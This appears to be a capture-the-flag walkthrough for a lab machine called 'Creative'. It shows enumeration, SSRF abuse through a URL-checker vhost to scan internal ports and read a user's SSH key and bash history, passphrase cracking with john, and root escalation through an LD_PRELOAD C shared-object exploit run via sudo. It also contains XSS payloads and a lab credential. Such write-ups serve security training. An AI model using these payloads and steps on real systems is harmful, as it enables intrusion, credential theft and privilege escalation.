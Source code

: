 # Creative - Easy

* Scan the machine - ```nmap -T4 -p- -A -Pn -v 10.10.10.64``` -

  * 22/tcp - ssh - OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
  * 80/tcp - http - nginx 1.18.0 (Ubuntu)

* From ```nmap```, we can also see that there is a domain name ```creative.thm``` - we can add this to the ```/etc/hosts``` file

* We can do a ```nikto``` scan as well - ```nikto -h 10.10.10.64``` - but this does not give us anything

* Basic directory scanning and vhost enumeration:

  ```shell
  gobuster dir -u http://creative.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php,html,bak -t 16

  gobuster dir -u http://creative.thm/assets -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php,html,bak -t 16

  ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u http://creative.thm -H 'Host:FUZZ.creative.thm' -fs 178
  # vhost fuzzing, run once to know what size to filter with
  # we get a hit here
  ```

* From the directory scanning, we only get a few hits - '/assets', '/components.html'

* Interacting in '/components.html', we do not get anything interesting as there are no other links

* While fuzzing for vhosts, we get a vhost 'beta.creative.thm' - we can add this to ```/etc/hosts```

* The page 'beta.creative.thm' is a beta URL tester, and we have an input field which takes a URL as an input and checks if it's alive

* Intercepting with Burp Suite, we can see that upon submitting, a POST request is sent with the input fed to a 'url' parameter

* On entering a test URL, after loading for a long time, we just get a response that says 'Dead'. When we input other strings like text or even an IP address, we get the 'Dead' response immediately

* If we enter the URL <http://creative.thm> or <http://10.10.10.64> (which we know is alive), the page loads the skeleton of the website itself. This indicates that under the hood, it is definitely interacting with the URL value of the 'url' parameter

* We can test now for any SSRF-related vulnerabilities - if we start a listener using ```nc -nvlp 4444```, and input our URL in the field - <http://10.14.65.78:4444>, we can see the response headers in terminal. This means the target server is issuing a request in the backend, and we can abuse this by testing further SSRF payloads:

  ```sh
  curl -i -s -X POST "http://beta.creative.thm" -d "url=http://10.10.10.64"
  # we get the webpage because this URL is alive

  curl -i -s -X POST "http://beta.creative.thm" -d "url=file:///etc/passwd"
  # we cannot read local files

  # need to with FTP and HTTP
  # start HTTP server
  vim index.html
  python3 -m http.server 8000

  # start FTP server
  sudo pip3 install twisted
  sudo python3 -m twisted ftp -p 21 -r .

  curl -i -s -X POST "http://beta.creative.thm" -d "url=ftp://10.14.65.78/index.html"
  # we cannot read files using FTP

  curl -i -s -X POST "http://beta.creative.thm" -d "url=http://10.14.65.78:8000/index.html"
  # but we can read files remotely
  ```

* Now, since we can reach our attacker machine by SSRF, we can build on this to get RCE.

* In the 'index.html' file, we notice that whatever content is added in file, it is simply shown in webpage by inserting it between ```<body>``` tags

* We can start with a simple HTML payload - this one is related to XSS:

  ```html
  <img src=x onerror=alert(1)>
  ```

* When the above is added in 'index.html' and we feed ```http://10.14.65.78:8000/index.html``` as the URL to be tested, we get an alert for '1', indicating the above worked. We can craft more such payloads:

  ```html
  <img src=x onerror=alert(1)>
  <img src=x onerror=alert(document.domain).jpg>
  <html><head></head><body><script>top.window.location = "http://creative.thm"</script></body></html>
  ```

  ```html
  <img src=x onerror=alert(1)>
  <img src=x onerror=alert(document.domain).jpg>
  <html><head></head><body><script>
          console.log("Test");
  </script></body></html>
  ```

* We can try getting RCE from SSRF, but the issue is that whenever the payload is added between ```<script>``` tags, it is not executed; we will have to find some other approach

* In the 'url' field, if we enter ```http://localhost:80```, we get the HTML code for ```creative.thm``` - this means it is hosted locally on port 80. We can also build on this to scan other ports for checking other internal services:

  ```shell
  curl -i -s -X POST "http://beta.creative.thm" -d "url=http://localhost:80"
  # HTML code for creative.thm

  curl -i -s -X POST "http://beta.creative.thm" -d "url=http://localhost:1"
  # for a port which is not hosting anything
  # we get the 'Dead' response with Content-Length 13

  for port in {1..65535};do echo $port >> ports.txt;done
  # ports wordlist

  # use tools like ffuf and wfuzz to enumerate all ports
  ffuf -w ports.txt:PORT -X POST -d "url=http://localhost:PORT" -fs 13 -u "http://beta.creative.thm"

  wfuzz -c -z file,ports.txt -d "url=http://localhost:FUZZ" --hh 13 http://beta.creative.thm
  # this gives us hits
  ```

* While we were unable to detect any open ports using ```ffuf```, ```wfuzz``` gave us an 'alive' response for ports 80 and 1337 (better to use multiple tools sometimes, as a single tool may give inaccurate details sometimes)

* Alternatively, to get the above info, we could have used an automated tool like [SSRFMap](https://github.com/swisskyrepo/SSRFmap) as well:

  ```sh
  git clone https://github.com/swisskyrepo/SSRFmap

  cd SSRFMap

  pip install -r requirements.txt

  python3 ssrfmap.py

  # capture a POST request using Burp and copy to file
  python3 ssrfmap.py -r ~/creative-post.req -p url -m portscan
  ```

* Now, in the URL field, if we give ```http://localhost:1337```, we are shown a page with directory listing for the Linux file system - this could be the target system

* We can click on each folder, but it acts as a link (e.g. - 'beta.creative.thm/home'), which does not exist - we have to instead define the directory initially, along with the URL:

  ```sh
  curl -i -s -X POST "http://beta.creative.thm" -d "url=http://localhost:1337/bin%40"
  # dead

  curl -i -s -X POST "http://beta.creative.thm" -d "url=http://localhost:1337/boot"

  curl -i -s -X POST "http://beta.creative.thm" -d "url=http://localhost:1337/home"
  # we have a user 'saad'

  curl -i -s -X POST "http://beta.creative.thm" -d "url=http://localhost:1337/home/saad"
  # we have some interesting stuff here like .bash_history and .ssh

  curl -i -s -X POST "http://beta.creative.thm" -d "url=http://localhost:1337/home/saad/.bash_history"
  # password reveal

  curl -i -s -X POST "http://beta.creative.thm" -d "url=http://localhost:1337/home/saad/.ssh"
  # we can get saad ssh key

  curl -i -s -X POST "http://beta.creative.thm" -d "url=http://localhost:1337/home/saad/.ssh/id_rsa"
  # copy this key
  ```

* The ```.bash_history``` file includes the credentials - "saad:MyStrongestPasswordYet$4291". Also, as we have saad's SSH key, we can use it for SSH login:

  ```sh
  ssh saad@creative.thm
  # cannot use the above creds, we need key

  vim id_rsa
  # paste saad key here

  chmod 600 id_rsa

  ssh saad@creative.thm -i id_rsa
  # it prompts for a passphrase, and the above password does not work

  # we can use ssh2john and try to crack hash
  ssh2john id_rsa > hash_id_rsa

  john --wordlist=/usr/share/wordlists/rockyou.txt hash_id_rsa
  # this cracks the hash and gives 'sweetness'

  ssh saad@creative.thm -i id_rsa
  ```

* After cracking ```id_rsa```, we can use the key and passphrase to login as 'saad' and get user flag

* ```.bash_history``` contains some more indicators - we have a couple of ```mysql``` logins for 'user' and 'db_user'; we can keep this in mind for privesc:

* We can check if we can run any commands as root user using ```sudo -l```, using the password we found earlier from ```.bash_history```. This shows we can run ```ping``` as root; we also have ```env_keep+=LD_PRELOAD``` variable set.

* This can be used as a privesc vector as ```LD_PRELOAD``` allows us o load a file before other libraries - in this case, we can use an exploit:

  ```c
  #include <stdio.h>
  #include <sys/types.h>
  #include <stdlib.h>

  void _init() {
      unsetenv("LD_PRELOAD");
      setgid(0);
      setuid(0);
      system("/bin/bash");
  }
  ```

  ```sh
  cd /tmp

  vim shell.c
  # add the exploit code

  gcc -fPIC -shared shell.c -o shell.so -nostartfiles
  # compile to create a .so file

  sudo LD_PRELOAD=/tmp/shell.so ping 127.0.0.1
  # use LD_PRELOAD with exploit
  # and we can run 'ping' as sudo so we need to do that

  # this gives us root shell
  ```
